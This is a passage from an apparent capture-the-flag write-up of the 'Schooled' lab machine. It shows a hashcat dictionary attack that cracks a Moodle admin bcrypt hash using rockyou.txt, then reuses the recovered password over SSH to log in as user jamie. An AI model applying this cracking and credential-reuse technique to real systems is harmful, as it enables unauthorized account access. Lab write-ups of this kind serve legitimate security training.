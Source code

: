 ```

moodle@localhost [moodle]>
```

The admin hash is of particular interest to us so we try to crack it with hashcat and are successful at it.

```
$ hashcat -m 3200 -O hash /opt/SecLists/Passwords/Leaked-Databases/rockyou.txt
hashcat (v6.1.1) starting...
...
[snip]
...
Dictionary cache hit:
* Filename..: /opt/SecLists/Passwords/Leaked-Databases/rockyou.txt
* Passwords.: 14344384
* Bytes.....: 139921497
* Keyspace..: 14344384

$2y$10$3D/gznFHdpV6PXt1cLPhX.ViTgs87DCE5KqphQhGYR5GFbcl4qTiW:!QAZ2wsx
                                                 
Session..........: hashcat
Status...........: Cracked
Hash.Name........: bcrypt $2*$, Blowfish (Unix)
Hash.Target......: $2y$10$3D/gznFHdpV6PXt1cLPhX.ViTgs87DCE5KqphQhGYR5G...l4qTiW
Time.Started.....: Sun Apr  4 00:56:00 2021 (5 mins, 15 secs)
Time.Estimated...: Sun Apr  4 01:01:15 2021 (0 secs)
Guess.Base.......: File (/opt/SecLists/Passwords/Leaked-Databases/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:       44 H/s (11.16ms) @ Accel:2 Loops:128 Thr:1 Vec:8
Recovered........: 1/1 (100.00%) Digests
Progress.........: 13892/14344384 (0.10%)
Rejected.........: 0/13892 (0.00%)
Restore.Point....: 13888/14344384 (0.10%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:896-1024
Candidates.#1....: 010890 -> !QAZ2wsx

Started: Sun Apr  4 00:55:27 2021
Stopped: Sun Apr  4 01:01:17 2021
```

Since there are only 2 users steve and jamie on the machine we can try the password with ssh for both of them, are able to login as jamie with the password `!QAZ2wsx` and grab the user flag.

```
$ ssh jamie@schooled.htb
The authenticity of host 'schooled.htb (10.129.89.235)' can't be established.
ECDSA key fingerprint is SHA256:BiWc+ARPWyYTueBR7SHXcDYRuGsJ60y1fPuKakCZYDc.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added 'schooled.htb,10.129.89.235' (ECDSA) to the list of known hosts.
Password for jamie@Schooled:
Last login: Tue Mar 16 14:44:53 2021 from 10.10.14.5
FreeBSD 13.0-BETA3 (GENERIC) #0 releng/13.0-n244525-150b4388d3b: Fri Feb 19 04:04:34 UTC 2021

Welcome to FreeBSD!

Release Notes, Errata: https://www.FreeBSD.org/releases/
Security Advisories:   https://www.FreeBSD.org/security/
FreeBSD Handbook:      https://www.FreeBSD.org/handbook/
FreeBSD FAQ:           https://www.FreeBSD.org/faq/
Questions List: https://lists.FreeBSD.org/mailman/listinfo/freebsd-questions/
FreeBSD Forums:        https://forums.FreeBSD.org/

Documents installed with the system are in the /usr/local/share/doc/freebsd/
directory, or can be installed later with:  pkg install en-freebsd-doc
```